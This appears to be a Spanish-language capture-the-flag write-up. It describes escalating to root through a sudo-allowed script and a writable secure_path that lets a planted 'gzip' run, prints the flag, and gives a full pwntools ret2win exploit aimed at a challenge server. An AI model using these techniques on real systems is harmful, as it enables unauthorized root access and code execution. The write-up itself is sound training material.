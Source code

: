 Luego de eso (es reocmendable tenrer una shell mas estable) si ejecutamos "sudo -l" observaremos lo siuguiente

```
$ sudo -l
Matching Defaults entries for lotus on black-lotus:
    env_reset, mail_badpass,
    secure_path=/home/lotus\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
User lotus may run the following commands on black-lotus:
    (root) NOPASSWD: /bin/backlogs
```

El archivo contiene lo siguiente /bin/backlogs

```
#!/bin/bash
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
```
Dado que podemos modificar el path (como se observa el home del usuario en este caso), simplemente agregando un archivo llamado "gzip" con algún comando, nos permitirá ejecutar como root el contenido del mismo. Con eso podemos leer la flag

```
root@black-lotus:~# cat flag.txt 
Q4{c0ngr4ts_f3ll0w_pwn3r_th3_c0unc1l_is_waiting_for_you}
root@black-lotus:~# exit
```
# ret2win

Un ret2win, la solución acá:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./a.out')
context.terminal = ['tmux', 'splitw', '-hp', '70']
def start():
    if args.GDB:
        return gdb.debug('./a.out', gdbscript=gs)
    if args.REMOTE:
        return remote('192.81.216.17', 1212)
    else:
        return process('./a.out')
r = start()
#========= exploit here ===================
ret = 0x40101a
payload = b"A"*0x18
payload += p64(ret) #ubuntu 16 bytes stack alignment
payload += p64(elf.sym.win)
r.sendlineafter(b"N:", payload)
#========= interactive ====================
r.interactive()
```
# Ancestral Recall.

